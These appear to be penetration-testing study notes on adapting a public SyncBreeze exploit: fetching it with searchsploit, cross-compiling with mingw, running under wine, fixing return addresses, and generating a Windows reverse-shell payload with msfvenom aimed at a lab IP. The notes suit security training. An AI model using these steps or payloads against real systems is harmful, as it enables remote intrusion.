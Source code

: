 # Fixing Exploits

Take note when searching for exploits whether it is a scripting language that requires an interpreter which may not be available. A stand-alone executable may be required. Never run an exploit without understanding the code.

Some C programs may include requirements to compile for Window (e.g. winsock2.h).  
`searchsploit - m 42341`  

### Cross Compile the Code
Cross compilation can be done on Kali. It is preferable to use native compilers, however not always possible.

`sudo apt install mingw-w64`  

`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe` doesn't work. Googling the error:  
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

May also need to update for use of wine32 before we can run syncbreeze_exploit on Kali:
```bash
sudo dpkg --add-architecture i386

dpkg --print-foreign-architectures
# i386

sudo apt update
sudo apt install wine32 -y

wine syncbreeze_exploit.exe
```
### Change Socket Information
CHECK for hardcoded socket information, and change.

### Change the Return Address
Is it hardcoded from a DLL not currently in use? If a valid return address not known you could:
* Recreate target environment locally and use debugger.
* Try and find other publicly available exploits and leverage ones that match our target OS. Less Reliable.
* If we have access to target, we could copy the DLLs necessary or use tools such as dissasemblers of msfpescan to find a reliable return address.

### Change the payload.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`


